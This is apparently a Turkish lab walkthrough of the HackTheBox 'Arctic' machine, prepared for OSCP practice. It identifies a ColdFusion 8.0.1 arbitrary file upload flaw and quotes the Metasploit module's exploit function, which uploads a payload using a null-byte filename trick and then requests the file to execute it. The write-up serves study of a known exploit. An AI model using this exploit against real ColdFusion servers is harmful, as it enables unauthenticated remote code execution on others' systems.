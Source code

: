 ![Pasted image 20250209192506.png](/img/user/resimler/Pasted%20image%2020250209192506.png)


### Path 1: Unauthenticated RCE

#### Exploit Analysis

Arctic üzerinde RCE'ye giden en doğrudan yol Execution güvenlik açığıdır:

```
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit) | cfm/webapps/16788.rb
```

Özellikle **OSCP pratiği** için, bir **Metasploit script'ini** okuyup anlamak kritik bir beceridir.

Bu yüzden, **searchsploit -x cfm/webapps/16788.rb** komutuyla script'i açacağım.

En ilginç kısım ise **exploit** fonksiyonu:

```
def exploit

    page  = rand_text_alpha_upper(rand(10) + 1) + ".jsp"

    dbl = Rex::MIME::Message.new
    dbl.add_part(payload.encoded, "application/x-java-archive", nil, "form-data; name=\"newfile\"; filename=\"#{rand_text_alpha_upper(8)}.txt\"")
    file = dbl.to_s
    file.strip!

    print_status("Sending our POST request...")

    res = send_request_cgi(
        {
            'uri'           => "#{datastore['FCKEDITOR_DIR']}",
            'query'         => "Command=FileUpload&Type=File&CurrentFolder=/#{page}%00",
            'version'       => '1.1',
            'method'        => 'POST',
            'ctype'         => 'multipart/form-data; boundary=' + dbl.bound,
            'data'          => file,
            }, 5)

    if ( res and res.code == 200 and res.body =~ /OnUploadCompleted/ )
        print_status("Upload succeeded! Executing payload...")

        send_request_raw(
            {
                # default path in Adobe ColdFusion 8.0.1.
                'uri'           => '/userfiles/file/' + page,
                'method'        => 'GET',
                }, 5)

        handler
    else
        print_error("Upload Failed...")
        return
    end

end
```
